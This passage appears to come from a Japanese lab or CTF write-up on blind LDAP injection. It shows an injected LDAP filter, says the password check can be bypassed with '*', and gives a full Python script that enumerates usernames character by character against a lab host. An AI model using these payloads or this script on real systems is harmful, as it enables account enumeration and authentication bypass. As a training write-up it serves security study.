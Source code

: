 結果として構築されるLDAPクエリ
```ldap
(&(uid=a*)(|(&)(userPassword=pwd)))
```
となる。このとき、アプリケーションが "パスワードが間違っています。" と返す場合、**LDAPディレクトリに uid が「a」で始まるユーザーが存在する**と推測できる

この後も、`ab*)(|(&`と続けて、同じように"パスワードが間違っています。" と返されたら、ユーザー名があっていることがわかる
まあ、これ、BURPとかでも自動化できるけど、pythonでコード書くとしたら以下のようになる
- パスワードは、`*`でバイパスできる
```python
import requests
from bs4 import BeautifulSoup
import string
import time

# ベースURL
url = 'http://10.10.183.42/blind.php'

# 使用する文字セット（英小文字＋英大文字＋数字＋一部記号）
char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

# 初期化
successful_response_found = True
successful_chars = ''

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

# 正しい文字が見つかる限りループを継続
while successful_response_found:
    successful_response_found = False

    for char in char_set:
        # 各文字を試す
        # print(f"Trying password character: {char}")

        # パスワードフィールドを標的としたデータ構造
        data = {
            'username': f'{successful_chars}{char}*)(|(&',
            'password': 'pwd)'
        }

        # POSTリクエストを送信
        response = requests.post(url, data=data, headers=headers)

        # HTMLレスポンスを解析
        soup = BeautifulSoup(response.content, 'html.parser')

        # 成功条件を調整（"色が緑のpタグ" を探す）
        paragraphs = soup.find_all('p', style='color: green;')

        if paragraphs:
            successful_response_found = True
            successful_chars += char
            print(f"見つかった文字: {char}")
            break

    if not successful_response_found:
        print("この反復では有効な文字が見つかりませんでした。")

# 最終的に見つかった文字列
print(f"最終ペイロード: {successful_chars}")
```

